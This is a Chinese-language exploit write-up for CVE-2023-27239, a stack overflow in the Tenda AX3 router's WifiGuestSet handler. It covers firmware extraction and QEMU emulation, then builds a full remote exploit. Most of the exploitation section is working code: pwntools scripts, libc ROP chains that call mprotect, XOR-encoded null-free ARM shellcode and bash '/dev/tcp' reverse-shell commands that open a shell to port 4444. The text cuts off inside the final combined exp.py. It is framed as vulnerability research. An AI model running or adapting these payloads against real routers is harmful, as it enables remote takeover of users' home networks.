# Abstract

漏洞编号为`CVE-2023-27239`​的漏洞是腾达路由器`AX3 V16.03.12.11`​在`/goform/WifiGuestSet`​接口处理的`shareSpeed`​参数时存在栈溢出漏洞，但是由于漏洞触发函数为`strcpy`​，所以整个栈溢出的`payload`​中不能含有`\x00`截断，导致利用难度陡然上升，至今网络上没有公开的exp。

# 一、 选题背景

随着宽带网络的普及和智能家居产业的快速发展，路由器作为家庭与互联网连接的核心网关设备，其战略地位日益凸显。它不仅承载着用户所有的网络流量，还通常集成了防火墙、NAT、DNS代理及设备管理功能，一旦被攻破，攻击者便可轻易实施中间人攻击、信息窃取、僵尸网络构建等恶意行为，严重威胁用户隐私与财产安全。

在众多路由器品牌中，腾达（Tenda）以其高性价比和丰富的产品线，在全球中低端家用及SOHO网络设备市场占据了可观的份额，尤其在新兴市场和发展中国家拥有数千万级规模的用户基础。然而，与此庞大的装机量形成鲜明对比的，是其产品在安全防御方面长期面临的挑战。近年来，安全研究人员与应急响应机构频繁披露腾达路由器存在高危漏洞，包括但不限于远程命令执行、缓冲区溢出、硬编码后门及认证绕过等。

同时，路由器作为网关，对于网络中的基础设备，可以作为跳板机对于内网进行进一步渗透，对于APT形式的网络攻击具有十分重大的意义。

因此，在这种情况下利用和研究已经报出但是没有exp或者poc的腾达路由器漏洞，无论对于攻防都具有现实意义。

# 二、环境搭建

## 2.1 固件提取

根据如下图所示的信息，可知含有`CVE-2023-27239`​的漏洞的是`AX3 V16.03.12.11`版本的腾达路由器



直接上网查找，腾达官方就提供了该路由器的固件：

由于该固件没有任何的加密，所以结合ubi_reader工具，可以直接使用binwalk提取出文件系统，如下图所示



这里红色的是软链接文件，因为我自己的目录下并没有这些文件，所以该软链接文件会报错，在后续`qemu`​模拟路由器关键程序`httpd`​执行的过程中，只需要用`chroot`命令修改根目录即可

## 2.2 模拟运行

### 2.2.1 ARM架构的特征

腾达路由器的固件是`ARM`​架构的，这与我们所熟悉的、常见的`x86`架构有较大的区别，因此，为了熟悉这个架构，先学习这个架构的相关特性。

1. 寄存器

   寄存器的序号从`R0`​至`R15`​，有一些寄存器基本只使用别名，比如`SP`​和`pc`
2. 函数调用

   对于一个函数，其传参的规定是按照`R0`​、`R1`​、`R2`……的顺序来调用的，返回值赋给R0
3. 系统调用

   系统调用的参数、返回值均与函数一致，但是系统调用需要有系统调用号，在进行系统调用前，这个系统调用号放在`R7`中
4. 指令特征

   在指令上，其实与`x86`的差别不是很大，需要明确的点有这么几个：

   1. ​`ARM`​架构的指令长短是固定的，每条指令4个字节，除非引入`Thumb`机制
   2. 跳转指令`b`​，类似于`x86`​的`jmp`​，意义是`branch`​，但是其中`blx`​类的指令有可能会导致`ARM`​切换成`Thumb`​，所以在`gadgets`的使用需要谨慎
   3. 系统调用的指令不再是`syscall`​，而是`svc #0`

### 2.2.2 qemu的安装、模拟与运行

这与我宿主机`ubuntu`​的`x86`​架构有很大的不同，为了能够实现动态调试，所以需要有`qemu`​来模拟`ARM`指令进行用户态程序的运行。

基本做法：下载`qemu`​之后将`qemu-arm`​复制到`rootfs`​下，并用`chroot`切换根目录模拟运行

```python
sudo apt install qemu-user-static
cd ~/桌面/Project/Vuln/tenda/ubifs-root/1572024763/rootfs_ubifs
cp $(which qemu-arm-static) ./qemu
chmod +x bin/httpd
sudo chroot ./ ./qemu ./bin/httpd
```

在终端运行时的效果如下：



‍

### 2.2.3 模拟过程中的问题及解决

#### A. 问题的定位

虽然在终端已经将`httpd`程序启动了，但是却没有办法通过浏览器访问：



为了定位到错误的原因，我采用了IDA的远程调试功能：



在调试的过程中，我发现程序进入了一个死循环，在死循环中无法跳出：



这里有两个函数：`ifaddrs_get_lan_ifname`​和`ifaddrs_get_ifip`​，前者用于获取网卡的名称，后者用于获取网卡名称对应的`IP`​。但是`ifaddrs_get_ifip`​函数的返回值一直是`-1`​，也就意味着获取`IP`失败，导致代码一直在循环里无法出来。

在动态调试的过程中，我手动修改了`R0`​寄存器的值为`0`：



然后继续运行，看看后续的报错。在执行到一个`websOpenServer`​函数时，可以看到这里尝试打开本地的`0x50`​也就是`HTTP`​服务常用的`80`端口：



由于没有获取到本地网卡的`IP`，所以报错退出：



终端中的运行结果符合预期：



#### B. ifaddrs_get_ifip的绕过

问题大致确定了，是出在`ip`的获取上。

为了查看`ifaddr_get_ifip`​的源码，从众多的`lib`​中定位到含有`ifaddr_get_ifip`​字符串的`lib`库：



通过`IDA`​逆向，获取到`ifaddr_get_ifip`的伪代码：

```python
int __fastcall ifaddrs_get_ifip(const char *a1, char *a2)
{
  int v4; // r7
  char *v6; // r0
  char v7; // [sp+4h] [bp-3Ch]
  char v8; // [sp+4h] [bp-3Ch]
  char dest[20]; // [sp+8h] [bp-38h] BYREF
  in_addr in; // [sp+1Ch] [bp-24h]

  j_log_debug_print((int)"ifaddrs_get_ifip", 241, 0, (int)"common_so", "function entry!", v7);
  v4 = socket(2, 2, 0);
  if ( v4 < 0 )
  {
    j_log_debug_print((int)"ifaddrs_get_ifip", 245, 3, (int)"common_so", "create sock is fail.", v8);
    return -1;
  }
  strncpy(dest, a1, 0x10u);
  if ( ioctl(v4, 0x8915u, dest) < 0 )		// 核心，0x8915 就是 SIOCGIFADDR，查询网卡的IPv4地址
  {
    j_log_debug_print((int)"ifaddrs_get_ifip", 252, 3, (int)"common_so", "ioctl error.", v8);
    close(v4);
    return -1;
  }
  v6 = inet_ntoa(in);
  strncpy(a2, v6, 0x10u);
  close(v4);
  j_log_debug_print((int)"ifaddrs_get_ifip", 260, 0, (int)"common_so", "function exit!", v8);
  return 0;
}
```

得知，出错的原因是因为没能根据网卡名称获取到网卡的`IP`​地址。通过调试，定位到`ifaddrs_get_lan_ifname`​函数执行后，查看`R0`​寄存器的值来确定网卡名称，为`br0`。



而我自己的网卡名称为`ens33`：



首先确认是否是网卡名称的问题，再思考解决方案。我直接通过`IDA`的patch工具在动态调试的过程中修改内存中的网卡名称，使程序最终正常运行了。由此确定确实是网卡名称不存在的问题。



为了绕过这个正常的功能所造成的困扰，我在网上查找到一下两种思路：

1. 手工patch`ifaddrs_get_lan_ifname`函数的二进制源码，使其返回值为宿主机的固定网卡
2. 为`Ubuntu`​宿主机配置一个名为`br0`的网卡

但是在我看来，这两种思路要么比较麻烦，要么可能会影响到宿主机的环境稳定性。所以我就在思考有没有别的解决办法。

在`IDA`​静态分析的过程中，我在`strings`​中寻找`"br0"`​，但是并没有找到，在整个固件没有加密的情况下，说明`br0`并不是硬编码写在固件里的，那么程序是如何确定要加载这个名称的网卡呢？

我想到了`linux`​的配置文件，一般在`/etc`​目录下，会有很多整个主机系统的配置文件，这些配置文件是否能够决定网卡的加载呢？我尝试在`/etc`​中寻找，找到了`/etc_ro/eth_name_conf.txt`，其中确实存在网卡名称的设置：



将其修改成`ens33`​之后再次尝试调试，结果发现网卡名称还是`br0`：





询问LLM知道用chroot启动时优先使用`rootfs/var/eth_name_conf.txt`​，所以将这个文件复制到`rootfs/var/eth_name_conf.txt`目录下，再次调试：



这里网卡名称读取正确了，`continue`​执行，终端中输出了`http`开启的日志：



访问80端口，之前不能够访问的路由器管理界面已经能够访问了：



到这里，使用用户态的`qemu-arm`​对`httpd`的模拟运行已经完成了

# 三、漏洞复现

## 3.1 漏洞分析

该漏洞存在于`/goform/WifiGuestSet`​接口对`shareSpeed`​参数的处理过程中，在分析源码之前，首先需要定位到这个漏洞，在`IDA`​中搜索字符串`WifiGuestSet`​，在`formDefineTendDa`函数中找到了该函数的注册代码：



定位到源码后开始分析`fromSetWifiGusetBasic`的代码：



可以看到：`shared_up_speed`​是在栈上的局部变量，但是`strcpy`​这个危险函数会一直复制字符串直到遇到`\0`，所以存在明显栈溢出。

测试栈溢出的可用性：

先用`burpsuite`​抓包并重放，修改重放包的报文，向其中添加`POST`​的`shareSpeed`​参数，赋值为一长串垃圾字符`AAAA……`



发送后得到了`segment fault`



## 3.2 漏洞定位

在整个漏洞利用的过程中，为了更清晰地看到内存分布、指令执行和寄存器状态，选用`gdb-multiarch`来进行调试，命令如下：

```bash
sudo chroot ./ ./qemu -g 1234 ./bin/httpd &
gdb-multiarch httpd
```

使用`cyclic`定位到溢出点：

```python
from pwn import *

io = remote("192.168.41.145", 80)

request = b'''POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.41.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

shareSpeed='''

payload = request + cyclic(0x7D0)

io.send(payload)

# io.interactive()                  # 这里io.interactive()得注释掉，不然gdb不会运行到断点处
```

​`gdb`调试运行到断点处：



已知`pc`​在`cyclic`​之后返回时的值为`xaas`​，用`cyclic`计算偏移，得到1892（0x764）



## 3.3 漏洞利用

对于这样一个栈溢出，我首先想到的思路是利用`httpd`​文件里现有的`gadgets`​去构造ROP链实现`getshell`：



尤其注意到`pop {r0, pc};`​这个`gadget`​，可以将`r0`​设置成`/bin/sh`​字符串的地址并将`pc`​设置成`system@plt`​的地址，来实现`system("/bin/sh")`的调用

```bash
from pwn import *

context.log_level = 'debug'

io = remote("192.168.41.145", 80)

request = b'''POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.41.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

shareSpeed='''

sp = 0x407ff230
gadget = 0x0005ab44
system = 0x00015528

payload = request 
payload += b'A'*(0x764 - 0x18) + p32(sp + 0x40) + b'A'*0x14 + p32(gadget)
payload += b'A'*0x24 + b'a'*0x18 + p32(system)
payload += b"busybox -c 'sh -i >& /dev/tcp/192.168.41.145/4444 0>&1'"

io.send(payload)
```

然而这里出现了一个问题：漏洞是通过`strcpy`​触发的，所以用来实现栈溢出的`payload`​不能有任何的`\0`​存在，否则会被`\0`​截断。而`httpd`​文件中所有的`gadgets`​因为其地址较低而包含`\0`​导致截断。后续的利用思路实际上围绕同一个问题展开：**如何绕开**  **​`\0`​**​ **截断，继续完成复杂利用。** 

对于这种情况， 一般会产生两种思路：

1. 利用二次读将ROP链更完整的读入
2. 利用libc的gadgets实现ROP链

下面将主要围绕这两个思路来实现漏洞的利用

### 3.3.1 二次读

第一条思路是“二次读”。它的基本逻辑是：

1. 第一次利用栈溢出，只布置一条足够短、足够简单的控制流劫持链；
2. 借助这条短链再次调用 `read`​ / `recv` 一类函数；
3. 在第二次读入时，将更复杂的 `ROP` 链或后续载荷写入内存；
4. 再从第二阶段载荷中完成真正的利用。

这类思路适合处理“第一次输入限制多、无法直接放入完整攻击链”的情形，从理论上非常贴合当前场景。

所以需要实现的是：使用一个大的“`gadget`”，

为了能够实现这样的效果，我首先将目标定位到`httpd`​中含有`recv`​函数或者系统调用的位置，这意味着它能够从linux的文件描述符中“读取”数据并存储到内存中。经过不懈的努力，我找到了可用的一大串`gadget`，如下：





这一段如果直接读取如图的`IDA`​的反汇编代码会非常痛苦，因为不知道为什么`IDA`非常喜欢在这里为寄存器取别名，导致汇编代码在寄存器对应关系上的可读性极差。所以我干脆提取出这样的一串汇编代码并将其恢复成人容易看懂的形式：

```armasm
.text:0001C824 loc_1C824                               ; CODE XREF: socketGetInput+24↑j
.text:0001C824 R0                                 	   ; socket_t *
.text:0001C824                 LDR             R3, [R5,#0xAC]
.text:0001C828                 ANDS            R4, R3, #1
.text:0001C82C                 MOVNE           R4, R7
.text:0001C830                 BNE             loc_1C8B0
.text:0001C834                 TST             R3, #0x20
.text:0001C838                 BEQ             loc_1C86C
.text:0001C83C                 ADD             R3, R0, #0x40+(-0x20)
.text:0001C840                 MOV             R2, #0x10
.text:0001C844                 STR             R2, [R3,#-0x14]!
.text:0001C848                 MOV             R1, R8 ; buf
.text:0001C84C                 STR             R3, [R0,#0x40+(-0x3c)] ; addr_len
.text:0001C850                 ADD             R3, R0, R2
.text:0001C854                 STR             R3, [R0,#0x40+(-0x40)] ; addr
.text:0001C858                 MOV             R2, R9 ; n
.text:0001C85C                 MOV             R3, R4  ; flags
.text:0001C860                 LDR             R0, [R5,#0xB0] ; fd
.text:0001C864 R5                                 	   ; socket_t *
.text:0001C864                 BL              recvfrom
.text:0001C868                 B               loc_1C880
.text:0001C86C ; ---------------------------------------------------------------------------
.text:0001C86C
.text:0001C86C loc_1C86C                               ; CODE XREF: socketGetInput+44↑j
.text:0001C86C R0                                 	   ; socket_t * ; flags
.text:0001C86C                 MOV             R3, R4
.text:0001C870                 MOV             R2, R9 ; n
.text:0001C874                 MOV             R1, R8 ; buf
.text:0001C878                 LDR             R0, [R5,#0xB0] ; fd
.text:0001C87C R5                                 	   ; socket_t *
.text:0001C87C                 BL              recv
.text:0001C880
.text:0001C880 loc_1C880                               ; CODE XREF: socketGetInput+74↑j
.text:0001C880                 CMP             R0, #0
.text:0001C884                 MOVGE           R3, #0
.text:0001C888                 MOVGE           R4, R0
.text:0001C88C                 STRGE           R3, [sp,#0xD4]
.text:0001C890                 BGE             loc_1C8B0
.text:0001C894                 BL              socketGetError
.text:0001C898                 CMP             R0, #0x68 ; 'h'
.text:0001C89C                 STR             R0, [R6]
.text:0001C8A0                 LDREQ           R3, [R5,#0xAC]
.text:0001C8A4                 ORREQ           R3, R3, #0x400
.text:0001C8A8                 STREQ           R3, [R5,#0xAC]
.text:0001C8AC                 BNE             loc_1C81C
.text:0001C8B0
.text:0001C8B0 loc_1C8B0                               ; CODE XREF: socketGetInput+2C↑j
.text:0001C8B0                                         ; socketGetInput+3C↑j ...
.text:0001C8B0                 MOV             R0, R4
.text:0001C8B4                 ADD             R5, R5, #0x24 ; '$'
.text:0001C8B8                 POP             {R4-R9,PC}
.text:0001C8B8 ; End of function socketGetInput
```

如上代码块所示，有很清晰的调用，总结下来，只需要利用栈溢出触发之前的一连串`pop`（如下）：



构造出以下条件即可：

```armasm
[R5, #0xAC] == 0x20
[R5, #0xB0] == 预期fd
R8 == 预期buf
```

在内存中寻找到了一个满足条件的`R5`，最后利用如下脚本实现了：

```python
from pwn import *
from urllib.parse import quote

context.log_level = 'debug'

io = remote("192.168.41.145", 80)

request = b'''POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.41.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

shareSpeed='''

sp = 0x407ff230
gadget = 0x0001C86C
system = 0x00015528
gadget2 = 0x0001C824

reverse_shell = b"bash -c 'bash -i >& /dev/tcp/192.168.41.145/4444 0>&1;'"
fd = 0x40800664  

payload = reverse_shell
payload += b'a'*(0x764 - len(reverse_shell) - 0x20) + p32(sp) + p32(fd - 0xB0) + p32(sp)*2 + p32(sp-0x20) + p32(0xffffffff) + b'a'*0x8      
payload += p32(gadget2)

io.send(request + quote(payload).encode())
```



但是执行过后得到的返回值为`0xfffffff2`​，这个返回值的含义是地址非法。这是由于：虽然起始地址合法，但是起始地址 + 长度之后不合法，因此会出错，另外由于len是由我直接通过栈控制的，所以其所占用的4个字节里不能有`\0`​，所以长度最小取到`0x01010101`，即使如此也会导致尾地址越界报错。



这里虽然能够调用到recv系统调用，但是还存在的几个问题如下：

1. ​`fd`文件描述符不确定

2. 事实上`http`​的`TCP`​连接会在执行前断开，因此`fd`压根不可能存在，所以这个方法行不通

3. 如果执行，返回值为`0xfffffff2`，地址不合法

综上，利用二次读的方法行不通

### 3.3.2 libc gadgets

根据`vmmap`​显示出的虚拟内存分布，`libc`的地址每次都是固定的，可以通过调试时计算出来：



得到`libc`​基址为：`0x40a4c000`​。由于`libc`​基址的大小比较大，所以其中基本不会再包含`\0`​，这样一来进行`ROP`​链的构造相对容易，不用拘泥于“只可以用一个`gadget`”的困境。

利用`libc`​中的`pop {r0, pc}`​，调用`system("/bin/sh")`实现了在服务端本地终端里弹了shell。



但是这个取代了`httpd`​的`/bin/sh`​进程并没有弹到远程，当我想要用`bash -c 'bash -i >& /dev/tcp/192.168.41.145/4444 0>&1'`​这个经典的反弹shell来获得`RCE`​时，却发现`/bin`​中没有`bash`，因而这种方便的反弹shell的方法失效了。



为了能够实现远程的`RCE`，只有两条路可以走：

1. 继续利用`ROP`，实现远程通信
2. 编写`shellcode`​，用`shellcode`实现远程通信

下面分析这两种方法的可能性：

第一种方法，在建立远程连接的时候`socket`​系统调用就需要以`socket(2,1,0)`​的形式来调用，它的三个参数都非常小，会有很多的`\0`，因此这种方法很难继续进行下去

第二种方法，使用`shellcode`​实现远程通信，但是难点在于如何实现`shellcode`的执行，因此，我将分为两个阶段来尝试解决这里的利用链问题

#### A. ROP阶段：mprotect

我们需要用`ROP`​来实现`mprotect`​，首先来分析`mprotect`的参数：

​`R0`：我们期望为一个栈的地址，这个地址最好能够和可控的栈区挨得很近

​`R1`​：一个正整数，`mprotect`​会自动向上取整进行页对齐（例如`1 ~ 0xFFF`​会自动设置为`0x1000`）

​`R2`​：实现可读可写可执行（`RWX`​），对应的数值为`7`

由于在栈溢出触发时，`r1`​寄存器的值为`0x1221`​，所以这里可以不用刻意的为控制`r1`​构造`ROP`​链，直接使用`r1`原本的值即可，注意做到不要破坏。

在调试的过程中发现了问题：

1. ​`R0`​的值需要为一个页对齐的地址，而页对齐的地址必须为`0x1000`​的整数倍，因此必定含有  
   ​`\0`截断

2. ​`R2`​的值是`7`​，完整的4个字节为`0x00000007`​，也会含有`\0`截断

为此，我需要抛弃常用的思路，即，抛弃直接使用`pop r[n]`​这种设置寄存器的形式，转而使用一些特殊的`gadgets`​来实现含有`\0`的寄存器的设置工作。

##### gadgets的确定

注意：以下提及的`gadgets`​均在`libc`​中，其地址需要加上`libc`的基址。

首先是一个基本的、简单的`gadget`​：`pop {r4, r5, r6, pc};`​，通过这个`gadget`​，可以帮助我控制`r4`​，`r5`​，`r6`三个寄存器：



接下来就要思考特殊的`gadgets`怎么寻找了。

由于寄存器的值没法直接通过栈溢出的`payload`​向栈中设置，所以`pop`​的方法行不通，那就从已有的内存中找是否有符合需求的值，如果有，就可以用`ldr`之类的指令通过寻址来将目标值读取到寄存器中。

通过不懈寻找，找到了如下两条`gadgets`，刚好能够满足条件：

1. ​`ldr r0, [r6, #8]； pop {…};`

   
2. ​`ldr r2, [r4, #4]； …… pop {r4, pc};`

   


##### 寄存器值的设置

能够从内存中向目标寄存器`r0`​，`r2`​中`ldr`​的`gadgets`有了，接下来就是内存中特殊值的寻找

设置`r2`​的值，需要内存中值为`7`的四个字节。

在`pwndbg`​中使用`search -t dword 7`命令，可以找到下面这几个栈中的地址



只需要用`pop {r4, r5, r6, pc};`​将`r4`​的值设置为其中一个地址再减去`4`即可

设置`r0`​的值，需要内存中有和栈地址挨得很近的、`0x1000`对齐的数据，但是这个数据十分难找，所以我需要自己构造

这里我预期的起始栈地址是`0x407ff000`​，所以不妨将其设置为`0x407ff001`​，然后再找一个`gadgets`​，将其减一即可，找到的`gadgets`​为：`sub r0, r0, #1; pop {pc};`



即，通过栈溢出`payload`​向栈中写入`0x407ff001`​，然后利用`pop {r4, r5, r6, pc};`​控制`r6`​之后再使用`ldr r0, [r6, #8]； pop {…};`​将`0x407ff001`​写入`r0`​，最后用`sub r0, r0, #1; pop {pc};`​将`r0`​设置为`0x407ff000`，也就是预期的起始地址。

在`ROP`​链的最后，调用`libc`​中的`mprotect`​，并实现向`shellcode`区域的跳转

最后调用了`mprotect`的效果如下图所示：



执行之后栈区中得到了一段可执行区域：



#### B. shellcode阶段：SYS_socket + SYS_connect + SYS_dup2 + system

​`shellcode`​是直接跟在前面的`ROP`​链后面的，因为在这里栈溢出的`payload`必须一次性发送过去，不然等连接断开后就无法再发送数据了。

为了实现反弹远控`shell`的目的，这里明确需要用到的系统调用及其参数：

```python
socket(2, 1, 0)
connect(192.168.41.145, 4444) -> fd
dup2(fd, 0)
dup2(fd, 1)
execve("/bin/sh", null, null)
```

参数确定了，可以手动编写`ARM32`​的`shellcode`​，其整体逻辑和`x86`​并无二致，所以编写还是比较轻松的，`ARM32`的系统调用表可以参考：

```url
https://www.chromium.org/chromium-os/developer-library/reference/linux-constants/syscalls/#arm-32-biteabi
```

但是由于`shellcode`​在设置参数时乃至指令本身不可避免地会产生`\0`​字节，所以需要想办法将其规避掉。这里我采用了一个`shellcode`​编码的技术，给已经编写好的`shellcode`​用一个异或密钥`xor_key`​进行编码，让整个编码后的`shellcode`​中没有`\0`字节

然后为这段`shellcode`​加一个“头”，“头”的职责是在运行时负责解码，将`shellcode`还原回来，类似于程序加壳，示意图如下：



结果在调试执行时出现了下面的情况：



远程连接直接中断，查看反弹`shell`的监听端也是这样：



猜测原因可能是`/bin/sh`​在`tenda`​路由器中和在我熟知的`ubuntu-linux`系统中的不一样

这时我想起来在前面执行`system("/bin/sh")`​时能够成功，所以将`execve`​的系统调用改成了对`libc`​库中`system`函数的调用。

定位问题，发现`libc`​库中`system -> do_system`中的实现如下图：



通过`/bin/sh sh -c '<cmd>'`​来使命令执行，这与`linux`中的似乎有所区别。

实现`shellcode`​编写的代码`asm.py`：

```python
from pwn import *
context.arch = 'arm'
context.bits = 32
context.endian = 'little'
context.os = 'linux'
context.binary = "httpd"

system = 0x40A836C8

def check(code):
    if b'\x00' in code:
        print("error!")
        return False
    print("Yes!")
    return True

shellcode = '''
decode:
    @ r9 => code
    adr r9, code
    @ r8 => 0
    eor r8, r8, r8
    @ r7 : xor_key
    eor r7, r7, r7
    add r7, r7, #0x12
    @ r8 init = -1
    sub r8, r8, #1

loop:
    add r8, r8, #1
    ldrb r6, [r9, r8]
    eor r6, r6, r7
    strb r6, [r9, r8]
    cmp r8, #0x100
    ble loop

code:
    mov r0, 2
    mov r1, 1
    mov r2, 0
    mov r7, 0x119
    svc #0
    mov r5, r0


    sub sp, sp, #0x20
    mov r3, 2
    mov r9, 0x11
    add r3, r3, r9, lsl #16
    mov r9, 0x5c
    orr r3, r3, r9, lsl #24
    str r3, [sp, #4]
    mov r3, 0xc0
    mov r9, 0xa8
    orr r3, r3, r9, lsl #8
    mov r9, 0x29
    orr r3, r3, r9, lsl #16
    mov r9, 0x91
    orr r3, r3, r9, lsl #24
    str r3, [sp, #8]
    eor r3, r3, r3
    str r3, [sp, #12]
    str r3, [sp, #16]

    add r1, sp, #4
    mov r2, 16
    mov r7, 0x11b
    svc #0

    mov r7, 0x3f
    mov r0, r5
    mov r1, 0
    svc #0

    mov r7, 0x3f
    mov r0, r5
    mov r1, 1
    svc #0

getshell:

    mov r2, 0
    adr r0, binsh
    strb r2, [r0, #7]
    @ pc = 0x40A836C8
    ldr pc, =0x40A836C8

binsh:
    .ascii "/bin/shX"
    
'''

xor_key = 0x12
asm_shellcode = asm(shellcode)
print(f"[+] shellcode: \n{asm_shellcode}")
print(f"[+] len : {len(asm_shellcode)}")

# encode code and binsh:
encoded_shellcode = b''
for i in range(44, len(asm_shellcode)):
    encoded_shellcode += p8(asm_shellcode[i] ^ xor_key)

# strcat:
final_shellcode = asm_shellcode[0:44] + encoded_shellcode
print(f"[+] final_shellcode: \n{final_shellcode}")
print(f"[+] len : {len(final_shellcode)}")

if check(final_shellcode):
    with open("shellcode.bin", 'wb') as f:
        f.write(final_shellcode)
        f.close()
```

将生成的`shellcode`​复制到`attack.py`中：

```python
from pwn import *
from urllib.parse import quote

context.log_level = 'debug'
context.arch = 'arm'
libc = ELF("./libc.so.6")

io = remote("192.168.41.145", 80)

request = b'''POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.41.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

shareSpeed='''

libc.address = 0x40a4c000
system = libc.address + 0x000376C8
pop_r456_pc = libc.address + 0x00016748
ldr_r0_r6_0x24_pop_r4_10_pc = libc.address + 0x000d3fec
ldr_r2_r4_4_pop_r4_pc = libc.address + 0x00065244
sub_r0_1_pop_pc = libc.address + 0x000600cc
pop_r3_11_pc = libc.address + 0x000239e0
pop_pc = libc.address + 0x00024928
pop_lr_bx_r3 = libc.address + 0x0005ada4

mprotect = libc.address + 0x000CCBD0
prot = 0x407fd774
unuse = 0xdeadbeef
target = 0x407ff2a0
shellcode_addr = target + 4

payload = b'a'*(0x764)
payload += p32(pop_r3_11_pc) + p32(pop_pc) + p32(unuse)*8
payload += p32(pop_lr_bx_r3) + p32(shellcode_addr)
payload += p32(pop_r456_pc) + p32(unuse)*2 + p32(target-0x24)
payload += p32(ldr_r0_r6_0x24_pop_r4_10_pc) + p32(prot-4) + p32(unuse)*6
payload += p32(ldr_r2_r4_4_pop_r4_pc) + p32(unuse)
payload += p32(sub_r0_1_pop_pc)
payload += p32(mprotect)
payload += p32(target+0x28)
payload += (p32(0x407ff001))
shellcode = b'$\x90\x8f\xe2\x08\x80(\xe0\x07p\'\xe0\x12p\x87\xe2\x01\x80H\xe2\x01\x80\x88\xe2\x08`\xd9\xe7\x07`&\xe0\x08`\xc9\xe7\x01\x0cX\xe3\xf9\xff\xff\xda\x10\x12\xb2\xf1\x13\x02\xb2\xf1\x122\xb2\xf1\x0bc\x12\xf1\x12\x12\x12\xfd\x12B\xb2\xf32\xc2_\xf0\x10"\xb2\xf1\x03\x82\xb2\xf1\x1b*\x91\xf2N\x82\xb2\xf1\x1b.\x91\xf3\x16"\x9f\xf7\xd2"\xb2\xf1\xba\x82\xb2\xf1\x1b&\x91\xf3;\x82\xb2\xf1\x1b*\x91\xf3\x83\x82\xb2\xf1\x1b.\x91\xf3\x1a"\x9f\xf7\x11"1\xf2\x1e"\x9f\xf7\x02"\x9f\xf7\x16\x02\x9f\xf0\x022\xb2\xf1\tc\x12\xf1\x12\x12\x12\xfd-b\xb2\xf1\x17\x12\xb2\xf3\x12\x02\xb2\xf1\x12\x12\x12\xfd-b\xb2\xf1\x17\x12\xb2\xf3\x13\x02\xb2\xf1\x12\x12\x12\xfd\x122\xb2\xf1\x16\x12\x9d\xf0\x152\xd2\xf7\x16\xe2\x8d\xf7=p{|=azJ\xda$\xbaR'
payload += shellcode

io.send(request + quote(payload).encode())
io.close()
```

调整`execve`​为`system`​之后能够成功弹回`shell`：



最终将两个脚本合并成一个文件`exp.py`：

```python
from pwn import *
from urllib.parse import quote

context.arch = 'arm'
context.bits = 32
context.endian = 'little'
context.os = 'linux'
context.binary = "httpd"
context.log_level = 'debug'
libc = ELF("./libc.so.6")


### shellcode ##############################################

def check(code):
    if b'\x00' in code:
        print("error!")
        return False
    print("Yes!")
    return True

shellcode = '''
decode:
    @ r9 => code
    adr r9, code
    @ r8 => 0
    eor r8, r8, r8
    @ r7 : xor_key
    eor r7, r7, r7
    add r7, r7, #0x12
    @ r8 init = -1
    sub r8, r8, #1

loop:
    add r8, r8, #1
    ldrb r6, [r9, r8]
    eor r6, r6, r7
    strb r6, [r9, r8]
    cmp r8, #0x100
    ble loop

code:
    mov r0, 2
    mov r1, 1
    mov r2, 0
    mov r7, 0x119
    svc #0
    mov r5, r0


    sub sp, sp, #0x20
    mov r3, 2
    mov r9, 0x11
    add r3, r3, r9, lsl #16
    mov r9, 0x5c
    orr r3, r3, r9, lsl #24
    str r3, [sp, #4]
    mov r3, 0xc0
    mov r9, 0xa8
    orr r3, r3, r9, lsl #8
    mov r9, 0x29
    orr r3, r3, r9, lsl #16
    mov r9, 0x84
    orr r3, r3, r9, lsl #24
    str r3, [sp, #8]
    eor r3, r3, r3
    str r3, [sp, #12]
    str r3, [sp, #16]

    add r1, sp, #4
    mov r2, 16
    mov r7, 0x11b
    svc #0

    mov r7, 0x3f
    mov r0, r5
    mov r1, 0
    svc #0

    mov r7, 0x3f
    mov r0, r5
    mov r1, 1
    svc #0

getshell:

    mov r2, 0
    adr r0, binsh
    strb r2, [r0, #7]
    @ pc = 0x40A836C8
    ldr pc, =0x40A836C8

binsh:
    .ascii "/bin/shX"
    
'''

xor_key = 0x12
asm_shellcode = asm(shellcode)
print(f"[+] shellcode: \n{asm_shellcode}")
print(f"[+] len : {len(asm_shellcode)}")

# encode code and binsh:
encoded_shellcode = b''
for i in range(44, len(asm_shellcode)):
    encoded_shellcode += p8(asm_shellcode[i] ^ xor_key)

# strcat:
final_shellcode = asm_shellcode[0:44] + encoded_shellcode
print(f"[+] final_shellcode: \n{final_shellcode}")
print(f"[+] len : {len(final_shellcode)}")


### attack ##############################################

io = remote("192.168.41.145", 80)

request = b'''POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.41.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
